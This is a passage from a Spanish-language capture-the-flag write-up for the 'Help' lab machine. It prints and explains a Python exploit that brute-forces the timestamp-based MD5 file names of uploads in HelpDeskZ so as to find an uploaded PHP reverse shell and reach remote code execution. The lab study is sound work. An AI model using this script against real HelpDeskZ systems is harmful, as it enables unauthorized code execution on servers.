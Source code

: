 ```py
import hashlib
import time
import sys
import requests
import calendar

helpdeskzBaseUrl = "http://10.10.10.121/support/uploads/tickets/" # change this
fileName = "reverse_shell.php" # Your reverse shell

response = requests.head('http://10.10.10.121') # Change this
serverTime=response.headers['Date'] # getting the server time
timeFormat="%a, %d %b %Y %H:%M:%S %Z"
currentTime = int(calendar.timegm(time.strptime(serverTime,timeFormat)))

for x in range(0, 800):
   plaintext = fileName + str(currentTime - x)
   md5hash = hashlib.md5(plaintext.encode()).hexdigest()
   url = helpdeskzBaseUrl+md5hash+'.php'
   print(url)

   response = requests.head(url)
   if response.status_code == 200:
      print("found!")
      sys.exit(0)

print("Sorry, I did not find anything")
```

En el nos **spoilea** que exploto ESTA máquina (la máquina `help`, por si no se entiende :P), así que por un lado estamos felices porque encontramos algo, **pero sabemos que ese algo nos va a funcionar si o si :l**

Hablemos de que hace este y el anterior exploit rápidamente:

1. Extrae la fecha en la que hacemos la ejecución del programa (en la que hace la conexión con la web, pero como es tan rápido, prácticamente es el momento en que ejecutamos el script).
2. La pasa a formato [timegm](https://docs.python.org/3/library/calendar.html#calendar.timegm): O sea, la fecha a **timestamp value**.
3. Y hace **800** peticiones (da igual el número, pueden ser 10, esto siempre y cuando se suba el archivo y de una se ejecute el exploit) para:
  * Tomar la fecha actual de ejecucion e irle restando `1,2,3,4,...,800`. Concatena el nombre original del archivo a esa resta.
  * Encripta el valor de `nombrearchivoTIMESTAMP` en formato **MD5**.
  * Y al final le agrega la extensión `.php`
  * **Si en algún momento de las 800 peticiones encuentra que en X periodo de tiempo se subió Y archivo, nos mostrara la URL asociada.**

...

### Obtenemos RCE con un archivo <u>.php</u> [🔗](#exp-helpdeskz-rce) {#exp-helpdeskz-rce}
